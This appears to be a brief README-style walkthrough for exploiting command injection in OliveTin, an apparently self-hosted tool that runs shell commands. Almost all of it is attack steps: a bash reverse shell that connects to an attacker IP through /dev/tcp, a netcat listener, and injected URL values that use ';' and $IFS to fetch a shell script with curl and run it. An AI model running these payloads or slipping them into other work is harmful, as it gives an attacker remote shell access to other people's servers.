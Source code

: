 on attack box make a rev shell file
```
echo "bash -i >& /dev/tcp/192.168.48.134/1234 0>&1" > shell.sh
```

then run netcat on port 80 or 443 (cant have any special ports)
```
nc -lvp 80 > shell.sh
```

from the olivetin theme repo then (only from docker container)
```
http://a;sh</dev/tcp/192.168.48.134/80
```

on service this writes to the host
```powershell
http://;/usr/bin/curl$IFS"http://192.168.48.134/shell"$IFS"-o"$IFS"/tmp/shell"
```
then in a second command do to get shell
```powershell
http://;bash$IFS/tmp/shell
```
